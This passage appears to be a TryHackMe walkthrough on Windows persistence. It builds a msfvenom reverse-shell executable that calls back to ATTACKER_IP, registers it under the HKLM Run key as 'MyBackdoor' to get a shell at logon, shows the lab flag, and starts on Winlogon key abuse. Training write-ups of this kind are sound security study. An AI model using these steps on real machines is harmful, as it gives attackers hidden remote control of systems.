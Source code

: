 ```shell-session
user@AttackBox$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4451 -f exe -o revshell.exe
```

After transferring it to the victim machine, let's move it to `C:\Windows\`:

```shell-session
C:\> move revshell.exe C:\Windows
```

Let's then create a `REG_EXPAND_SZ` registry entry under `HKLM\Software\Microsoft\Windows\CurrentVersion\Run`. The entry's name can be anything you like, and the value will be the command we want to execute.

**Note:** While in a real-world set-up you could use any name for your registry entry, for this task you are required to use `MyBackdoor` to receive the flag.

![backdoored Run entry](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/c99038cd6cc9e37512edabb1f873a4da.png)

After doing this, sign out of your current session and log in again, and you should receive a shell (it will probably take around 10-20 seconds).

![THM flag](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/362875749378007cc447a2e47d476c9b.png)

Using your newly obtained shell, execute `C:\flags\flag11.exe` to get a flag!

Once we follow all steps, we will receive our shell, we need to strictly name the registry `MyBackdoor` for us to be able to read the flag:

![](../images/Pasted%20image%2020250516113038.png)

```
C:\flags>.\flag11.exe
THM{LET_ME_HOLD_THE_DOOR_FOR_YOU}
```

## Winlogon

Another alternative to automatically start programs on logon is abusing Winlogon, the Windows component that loads your user profile right after authentication (amongst other things).

Winlogon uses some registry keys under `HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\` that could be interesting to gain persistence:

- `Userinit` points to `userinit.exe`, which is in charge of restoring your user profile preferences.
- `shell` points to the system's shell, which is usually `explorer.exe`.

![Winlogon registry](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/f3c2215af6e3f2d19313498fca62a9d4.png)

If we'd replace any of the executables with some reverse shell, we would break the logon sequence, which isn't desired. Interestingly, you can append commands separated by a comma, and Winlogon will process them all.

Let's start by creating a shell:
